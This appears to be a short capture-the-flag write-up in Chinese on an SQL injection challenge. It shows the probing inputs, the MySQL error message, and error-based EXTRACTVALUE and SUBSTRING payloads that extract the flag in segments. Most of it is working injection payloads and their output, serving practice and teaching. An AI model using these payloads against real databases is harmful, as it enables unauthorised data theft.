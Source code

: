 正常输入`1`，显示:
```
该comment id已被占用
```
尝试输入`1'`，语法报错如下:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'')) LIMIT 0,1' at line 1该comment id未被占用
```
得知攻击命令应为：
```
1')) AND <command> #
```

尝试使用EXTRACTVALUE进行注入攻击，构造如下
```
1')) AND EXTRACTVALUE(1, (SELECT flag FROM flag WHERE 1=1)) #
```

返回被截断的FLAG
```
{30cc25d9656945abb3535a184d8397c
```

尝试分段提取FLAG
```
1')) AND EXTRACTVALUE(1, (SELECT SUBSTRING(flag, 1, 30) FROM flag WHERE 1=1)) #
1')) AND EXTRACTVALUE(1, (SELECT SUBSTRING(flag, 10, 30) FROM flag WHERE 1=1)) #
```

```
{30cc25d9656945abb3535a184
d9656945abb3535a184d8397c5}
```

完整FLAG为：
```
NeSE{30cc25d9656945abb3535a184d8397c5}
```